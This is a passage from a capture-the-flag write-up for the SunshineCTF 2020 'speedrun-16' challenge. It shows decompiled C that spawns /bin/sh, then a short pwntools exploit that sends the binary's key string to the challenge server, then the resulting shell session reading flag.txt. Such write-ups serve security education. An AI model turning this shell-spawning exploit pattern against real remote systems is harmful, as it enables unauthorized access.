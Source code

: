 ```c
    system("/bin/sh");
  }
  if (local_20 != *(long *)(in_FS_OFFSET + 0x28)) {
    __stack_chk_fail();
  }
  return;
}
```

Yeah, this is just [speedtest-09](#speedtest-09) without the "crypto", nothing to see here.

### Exploit

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./chall_16')

if not args.REMOTE:
    p = process(binary.path)
else:
    p = remote('chal.2020.sunshinectf.org', 30016)

p.send(binary.string(binary.sym.key))
p.interactive()
```

Output:

```bash
# ./exploit_16.py REMOTE=1
[*] '/pwd/datajerk/sunshinectf2020/speedrun-16/chall_16'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to chal.2020.sunshinectf.org on port 30016: Done
[*] Switching to interactive mode
$ id
uid=1000(chall_16) gid=1000(chall_16) groups=1000(chall_16)
$ ls -l
total 16
-rwxr-xr-x 1 root root     8648 Nov  7 07:49 chall_16
-rw-r----- 1 root chall_16   43 Nov  7 08:52 flag.txt
$ cat flag.txt
sun{beast-and-the-harlot-73058b6d2812c771}
```


## speedrun-17
